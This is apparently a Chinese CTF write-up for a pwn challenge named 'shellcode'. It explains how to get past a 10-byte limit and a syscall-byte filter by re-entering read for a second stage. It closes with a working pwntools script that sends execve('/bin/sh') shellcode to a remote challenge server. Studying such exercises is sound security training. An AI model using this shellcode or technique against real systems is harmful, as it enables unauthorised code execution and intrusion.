


# shellcode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序允许输入10字节的shellcode，并且过滤了`syscall(0f 05)`。由于有限制，shellcode不能直接写`read`，
字节数会超。由于`call`会在栈上留下一个返回地址，相当于间接拿到了pieBase。



回看`main`函数，其中在`read(0, buf, 10)`时，程序依次设置了rdx, rsi和rdi，
因此我们可以设置好rdx，然后跳回去让程序自己设置rsi和rdi，实现大量字符串写入。
由于`memmem`比较时只比较前10个字符，而`execve`的shellcode的`syscall`在10字节之外，
因此都不需要patch就能拿shell。

shellcode开头还有一个push pop，是因为本地测试时好像偶尔会吞2个字节。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './shellcode'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1424)')
    else:
        sh = remote('139.155.126.78', 39581)

    # set rdx and return to 0x13e2
    sh.sendafter(b'input', asm('sub qword ptr [rsp], 68; push rcx; pop rdx; ret;'))
    sleep(0.5)
    code = '''
    push rdx
    pop rdx
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    sh.send(shc)

    sh.clean()
    sh.interactive()
```


